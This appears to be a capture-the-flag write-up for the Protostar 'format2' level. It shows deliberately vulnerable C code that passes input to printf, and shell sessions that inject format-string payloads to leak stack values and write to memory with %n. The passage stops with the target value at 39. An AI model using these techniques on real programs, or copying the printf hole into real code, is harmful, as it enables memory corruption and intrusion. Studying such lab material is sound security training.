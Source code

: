 ### Format2

> This level moves on from format1 and shows how specific values can be written in memory.

> This level is at /opt/protostar/bin/format2

#### Source Code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

This level builds on the previous level by requiring to overwrite the `target` with a specific value (decimal 64). 
Similarly to the previous level we need to find our input on the stack. This time, however, the input is being read from stdin instead of being passed as an argument.
Also the payload is a lot closer to the top of the stack:

```
user@protostar:/opt/protostar/bin$ echo `python -c "print 'AAAAAAAA' + '%x.'*5"` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.
target is 0 :(
user@protostar:/opt/protostar/bin$ 
```

Similarly, we find the address of the `target` variable and test if we can precisely display and overwrite the address:

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$ echo `python -c "print 'AAAA\xe4\x96\x04\x08' + '%x.'*4"`%x | ./format2
AAAA��200.b7fd8420.bffff624.41414141.80496e4
target is 0 :(
user@protostar:/opt/protostar/bin$ echo `python -c "print 'AAAA\xe4\x96\x04\x08' + '%x.'*4"`%n | ./format2
AAAA��200.b7fd8420.bffff624.41414141.
target is 39 :(
user@protostar:/opt/protostar/bin$ 
```
